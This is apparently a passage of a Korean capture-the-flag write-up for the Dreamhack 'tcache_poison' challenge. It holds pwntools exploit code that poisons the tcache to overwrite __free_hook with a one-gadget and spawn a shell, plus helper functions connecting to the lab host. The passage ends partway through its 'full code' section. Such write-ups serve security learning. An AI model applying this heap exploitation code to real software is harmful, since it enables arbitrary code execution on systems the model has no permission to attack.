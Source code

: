 ```

# tcahce[0x50] : first(1)
free()


# tcache[0x50] : first(1) -> aaaaaaaa
edit(b'a'*0x8 + b'a')


# tcache[0x50] : first(2) -> first(1) + 0x10
free()


# tcache[0x50] : first(1) + 0x10 -> free_hook
# chunk : first(2)
allocate(0x40, p64(free_hook))


# tcache[0x50] : free_hook
# chunk : first(1)
allocate(0x40, b'a')


# tcache[0x50] : empty
# chunk : free_hook
allocate(0x40, p64(og))  # free_hook이 저장된 주소에 og가 저장되어 free_hook -> og를 가리키게 됨


# Exploit
free()
p.interactive()
```

## 전체 코드

```
from pwn import *

p = remote('host3.dreamhack.games', 22594)
elf = ELF('./tcache_poison')
libc = ELF('./libc-2.27.so')


def allocate(size, content):
    p.sendlineafter(b'Edit\n', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Content: ', content)  # 나중에 _IO_2_1_stdout__lsb를 보낼때 sendline으로 보내면 공백이 추가되서 안됨


def free():
    p.sendlineafter(b'Edit\n', b'2')


def print_chunk():
    p.sendlineafter(b'Edit\n', b'3')


def edit(content):
    p.sendlineafter(b'Edit\n', b'4')
    p.sendafter(b'Edit chunk: ', content)


# tcache[0x40] : empty
```